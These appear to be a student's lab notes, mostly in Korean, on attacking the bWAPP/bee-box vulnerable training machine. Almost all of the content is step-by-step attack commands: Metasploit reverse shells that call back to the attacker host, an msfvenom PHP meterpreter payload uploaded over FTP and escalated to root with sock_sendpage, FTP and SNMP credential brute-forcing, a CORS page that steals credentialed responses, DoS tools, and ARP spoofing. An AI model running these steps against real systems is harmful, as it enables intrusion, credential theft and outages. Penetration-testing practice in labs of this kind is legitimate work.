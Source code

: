 
## Arbitrary File Access(Samba)
### Security : low
HINT : defacement is possible
msfconsole
search samba type:exploit platform:unix
use exploit/unix/misc/distcc_exec
show options
set RHOSTS 192.168.56.143
set LHOST 192.168.56.102
set payload cmd/unix/reverse
exploit
	root 접속
back
## Cross-Origin Resource Sharing(AJAX)
### Security : low
systemctl start apache2
vi /var/www/html/cors.html
	`<html>`
		`<head>`
			`<script>`
				`fucntion cors() {`
					`var xhttp = new XMLHttpRequest();`
					`xhttp.onreadystatechange = function() {`
						`if (this.readyState == 4 && this.status == 200) {`
							`alert(this.responseText);`
						`}`
					`};`
					`xhttp.open("GET", "http://192.168.56.143/bWAPP/secret-cors-1.php", true);`
					`xhttp.withCredentials = true;`
					`xhttp.send();`
				`};`
			`</script>`
		`</head>`

		`<body onload = "cors()">`
			`<h2>CORS Exploit</h2>`
			`<h3>bee-box NEO's secret</h3>`
		`</body>`
	`<html>`
http://192.168.56.102/cors.html 실행하면 알림창 뜸
## Cross-Site Tracing(XST)
### Security : low
burp suite
intercept on
	GET -> TRACE
	sm_xst.php 다운로드됨
	ls /home/kali/Downloads에서 확인
## Denial-of-Service(Large Chunk Size)
### Security : low
cve.mitre.org : cve코드에 대해 모아둔 사이트
vi dos.py
	Dos attack script 파일 내용 복사 붙여넣기
bee-box 
	gnome-system-monitor&
		System Monitor
python2 dos.py
	System Monitor에서 변화 확인
## Denial-of-Service(Slow HTTP DoS)
### Security : low
slowloris 다운받아서 실행
## Denial-of-Service(SSL-Exhaustion)
### Security : low
thc-ssl-dos : ssl 키를 계속 재요청해서 서버에 부하를 일으킴.
thc-ssl-dos 192.168.56.143 443 --accept
	연결은 되지만 실제 공격은 안됨.
	키 재설정을 못하도록 보안상으로 막힘
	wireshark(eth1)에서 확인
		Client Hello, Server Hello로 정상적으로 통신이 됨을 확인
thc-ssl-dos 192.168.56.143 8443
	wireshark
		client key exchange 발견됨
## Denial-of-Service(XML Bomb)
### Security : low
lol 클릭
	beebox-System Monitor
		CPU, Memory가 높아짐 -> pc내 자원을 소모하도록 함.
	wireshark
		HTTP/XML
			eXtensible Markup Language로 코드를 볼 수 있음.
			네트워크의 부하는 보이지 않음.
## Insecure FTP Configuration
### Security : low
ftp 192.168.56.143
	wireshark 
		ftp버전과 user, pass 등 입력한 정보가 그대로 다 남아있음.
msfconsole
search ftp_login
use 0
show options
set rhosts 192.168.56.143
set stop_on_success true
set user_file /root/weakuser.txt
set pass_file /root/weakpass.txt(unset으로 설정 취소 가능)
exploit
	Login Successful : bee:bug
## Insecure SNMP Configuration
### Security : low
snmp
snmpwalk
	명령어 존재하지 않음
cd /usr/share/doc/onesixtyone
ls
	onesixtyone 실행 파일들
onesixtyone -c dict.txt 192.168.56.143
	wireshark
		get-response 2번 나타남
		Simple Network Management Protocol
			community : private, public
snmp-check 192.168.56.143 -c public -p 161 | more
	서비스, 저장소 등 여러 정보 확인 가능
msfconsole
search snmp_login
use 0
show options
set rhosts 192.168.56.143
set stop_on_success true
set threads 5
exploit
	Login successful: private(Access level: read-write), public(Access level: read-only)
use auxiliary/scanner/snmp/snmp_enum
set options
set rhosts 192.168.56.143
set threads 5
exploit
	snmp-check 사용했을 때와 비슷한 정보
use auxiliary/scanner/snmp/snmp_enumusers
set rhosts 192.168.56.143
exploit
	Scanned 1 of 1 hosts
set community private
exploit
	Scanned 1 of 1 hosts
## Insecure WebDAV Configuration
### Security : low
webdav : 웹에서 제공하는 ftp 서비스
beebox
	ls /etc/apache2
		httpd.conf
	cat /etc/apache2/httpd.conf
		Alias /webdav /var/www/bWAPP/documents 
		DAV On
	ls /var/www/bWAPP/documents
msfconsole
search webdav_scanner
use 0
set rhost 192.168.56.143
exploit
	mod_ssl ~ WebDAV disabled
http://192.168.56.143/webdav
burp suite
intercept on
	PUT /bWAPP/testwebdav.txt
	TestWebdav
		/webdav 폴더에 testwebdav.txt파일이 업로드됨
beebox
	ls /var/www/bWAPP/documents
		testwebdav.txt 파일이 생김
## Local Privilege Escalation(sendpage)
### Security : low
msfvenom -p /php/meterpreter/reverse_tcp lhost=192.168.56.102 lport=4445 > /root/test.php
`locate *.nse | grep ftp
nmap -p 21 192.168.56.143 --script ftp-anon.nse
	ftp 사이트에서 홈 디렉터리 = webdav 홈 디렉터리
ftp 192.168.56.143
put test.php
ls
	test.php
http://192.168.56.143/webdav 에서도 확인
msfconsole
use exploit/multi/handler
set lhost 192.168.56.102
set lport 4445
set payload php/meterpreter/reverse_tcp
exploit
http://192.168.56.143/webdav 에서 test.php 실행
meterpreter로 연결
cd /
pwd
background
use exploit/linux/local/sock_sendpage
show options
set lhost 192.168.56.102
set session 1
exploit
sessions 1
cat /etc/passwd
## Man-in-the-Middle Attack(HTTP)
### Security : low
중간자 공격 : arp spoof 
ettercap -G
	Primary Interface : eth1
	Options : Promisc mode
	bee/bug로 로그인한 정보를 바로 받음
arpspoof -i eth1 -t 192.168.56.143 -r 192.168.56.102
	잘못된 MAC 주소를 계속 발생
## Old, Backup&unreferenced Files
### Security : low
페이지 노출로 인한 계정정보 노출
config.inc : 데이터베이스 정보 노출
## Robots File
### Security : low
GoodBot과 BadBot에 대한 권한 설정
/admin
/documents
/passwords 전부 접근 가능
